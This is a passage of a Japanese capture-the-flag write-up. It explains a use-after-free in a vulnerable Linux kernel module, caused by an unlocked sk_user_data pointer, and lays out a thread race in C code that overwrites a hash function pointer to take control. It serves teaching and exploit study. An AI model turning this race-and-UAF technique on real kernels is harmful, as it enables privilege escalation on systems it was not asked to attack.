 だが、本モジュールではあろうことか`sk->sk_user_data`をスタックに積んでロックもとらず放置してしまっている。いわゆるパッチ問(この問題もフックをつけてるだけだからある種のパッチ問だと思う)においては、本来の実装と違うところがバグである。
この`sk_user_data`には、先程言ったハッシュを生成するためのユーザ指定の情報(関数ポインタのみユーザ指定不可)が入っており、`tcp_recvmsg()`後にスタックに積んだ`sk_user_data`から情報を取り出して使っている。このデータは`ioctl`で`kfree`できるため、無事にUAF完成。


# race

さてさて、最初に書いたように`unprivileged_userfualtfd`が禁止されている。よって、結構シビアなレースをする必要が有る。最初は`sendmsg`で任意サイズのsprayをしようとしていたが、`sendmsg`でのspray、一回も成功したこと無くて断念した。これ、ほんとに使える???

こういう場合に安定なのは、モジュール内で実装されている関数・構造体をレースに使うこと。victimとなる構造体は`struct StonksSocket`で、サイズは`0x20`。

まず、クライアント1(victim)のソケットを開いて`ioctl`して`StonksSocket`を作る。次に、同一サーバに対してクライアント2(attacker)のソケットを作り、同様に`ioctl`して`StonksSocket`を作り、先にクソデカメッセージを送っておく。まだ`recv`はしない。

ここでスレッドを他に2つ作る。receiverスレッドでは、起動と同時にvictimの`StonksSocket`を削除して、その後attackerから永遠に`recv`し続ける。
```receiver.c
static void *receiver(void *arg) {
  puts("[+] receiver thread started");
  while(GO == 0);
  ioctl(victim_sock_fd, OPTION_PUT, NULL);
  while(1 == 1) {
    recv(attacker_sock_fd, bigrcvbuf, BIGSIZE, 0);
  }
  return NULL;
}
```

writerスレッドでは、一度だけvictimに対して`write`をする。このデータはなんでもいい。
```writer.c
static void *writer(void *arg) {
  puts("[+] writer thread started");
  usleep(1500 * 1000);
  GO=1;
  for (int ix = 0; ix != 30; ++ix) {
    usleep(1);
  }
  write(victim_socket, bigbuf, 8);
}
```

最後に、メインスレッドでは一度だけvictimから`read`する。


これらがうまく噛み合って以下の順で起こると、レースが起こる:
1. メインスレッドがvictimからreadする。`stonks_rocket()`内で、`sk_user_data`ポインタをスタックに積む。読むのはクソデカバッファだから、`tcp_recvmsg()`内でコンテキストスイッチする(しろ)。
2. readerスレッドがvictimの`StonksSocket`を`kfree`する。これでvictimのスタックに乗っている`sk_user_data`はダングリング。
3. readerスレッド内でattackerから`recv`することで、`secure_hash`内の以下のパスで、victimがリリースした直後の0x20サイズのチャンク(`StonksSocket`)がとられ、kUAF(overwrite)。
```.c
    while (i) {
        size = h->length * sizeof(u64);
        buf = kmalloc(size, GFP_KERNEL);
        i = copy_from_iter(buf, size, msg);
        for (j = 0; j < i; j++) {
            hash[j] ^= buf[j];
        }
        kfree(buf);
    }
```
4. writerスレッド内でvictimにwriteすることで、メインスレッドの`recv`の処理が続行する。このときには、3により`sk_user_data->hash_function`関数ポインタがattackerにより送られたメッセージの値で上書きされている。
5. メインスレッド内の`recv`が、通常の`tcp_recvmsg()`を終えて書き換えられたハッシュ関数を呼び出す。
6. nirugiri
